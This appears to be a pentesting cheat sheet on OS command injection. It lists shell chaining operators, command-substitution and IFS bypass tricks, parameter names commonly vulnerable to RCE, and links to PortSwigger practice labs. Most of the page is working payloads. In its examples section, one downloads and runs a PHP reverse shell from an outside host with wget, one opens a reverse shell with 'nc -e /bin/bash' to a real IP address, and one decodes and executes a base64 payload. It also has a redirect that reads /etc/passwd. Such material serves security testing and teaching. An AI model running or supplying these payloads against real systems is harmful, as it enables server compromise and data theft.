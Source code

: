 ## What is command Injection?

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute an arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data. (From [here](https://portswigger.net/web-security/os-command-injection)).

### Context

Depending on **where your input is being injected** you may need to **terminate the quoted context** (using `"` or `'`) before the commands.

## Command Injection/Execution

# Both Unix and Windows supported
```bash 
ls||id; ls ||id; ls|| id; ls || id # Execute both

ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)

ls&&id; ls &&id; ls&& id; ls && id # Execute 2º if 1º finish ok

ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º

ls %0A id # %0A Execute both (RECOMMENDED)
```


# Only unix supported
```bash 
`ls` # ``

$(ls) # $()

ls; id # ; Chain commands

ls${LS_COLORS:10:1}${IFS}id # Might be useful

```

# Not executed but may be interesting

```bash 
> /var/www/html/out.txt #Try to redirect the output to a file

< /etc/passwd #Try to send some input to the command
```

### **Limition** Bypasses

If you are trying to execute **arbitrary commands inside a linux machine** you will be interested to read about this **Bypasses:**
### **Examples**
```bash 
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php

vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80

vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```
### Parameters
Here are the top 25 parameters that could be vulnerable to code injection and similar RCE vulnerabilities (from [link](https://twitter.com/trbughunters/status/1283133356922884096)):
```bash
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```
- [ ] [**Blind OS command injection with time delays**](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
- [ ] [**Blind OS command injection with output redirection**](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)
- [ ] [**Blind OS command injection with out-of-band interaction**](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
- [ ] [**Blind OS command injection with out-of-band data exfiltration**](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)
